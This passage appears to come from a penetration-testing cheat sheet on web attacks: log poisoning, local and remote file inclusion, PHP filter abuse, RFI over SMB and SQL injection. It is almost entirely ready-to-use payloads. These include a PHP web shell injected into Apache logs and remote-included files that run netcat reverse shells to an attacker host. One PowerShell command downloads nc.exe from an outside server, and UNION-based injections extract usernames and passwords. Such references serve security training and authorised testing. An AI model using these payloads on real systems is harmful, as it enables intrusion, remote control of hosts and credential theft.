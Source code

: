 ```
../../../../../boot.ini  #Windows file


# Contaminating log files

root@kali:~# nc -v 10.11.1.111 80
10.11.1.111: inverse host lookup failed: Unknown host
(UNKNOWN) [10.11.1.111] 80 (http) open
 <?php echo shell_exec($_GET['cmd']);?>

http://10.11.1.111/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig  #Will work if directory traversal is available.

# RFI:
http://10.11.1.111/addguestbook.php?LANG=http://10.11.1.111:31/evil.txt%00
Content of evil.txt:
<?php echo shell_exec("nc.exe 10.11.0.105 4444 -e cmd.exe") ?>

# PHP Filter:
http://10.11.1.111/index.php?m=php://filter/convert.base64-encode/resource=config

# RFI over SMB (Windows)
cat php_cmd.php
	<?php echo shell_exec($_GET['cmd']);?>
- Start SMB Server in attacker machine and put evil script
- Access it via browser (2 request attack):
	- http://10.11.1.111/blog/?lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c Invoke-WebRequest -Uri "http://10.10.14.42/nc.exe" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe"
	- http://10.11.1.111/blog/?lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe" -e cmd.exe ATTACKER_IP 1234

```

### SQL-Injection

```
# References
https://portswigger.net/web-security/sql-injection
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://www.exploit-db.com/papers/17934
https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
https://book.hacktricks.xyz/pentesting-web/sql-injection

# Enumeration

' ORDER BY 1--      #Increase the number to determine the number of columns
' UNION SELECT NULL,NULL,NULL--   #Confirm the "Order by" statement 
' UNION SELECT NULL,NULL,'a',NULL-- #Define string/numerical data

# Database Attacks
'+UNION+SELECT+@@version,+NULL#
SELECT * FROM information_schema.tables

'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--  #List Tables

'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--  #List Columns

'+UNION+SELECT+username,+password+FROM+users--    #Get Username & Password

'+UNION+SELECT+NULL,username||'~'||password+FROM+users--     #Concatenation for multiple vaules

```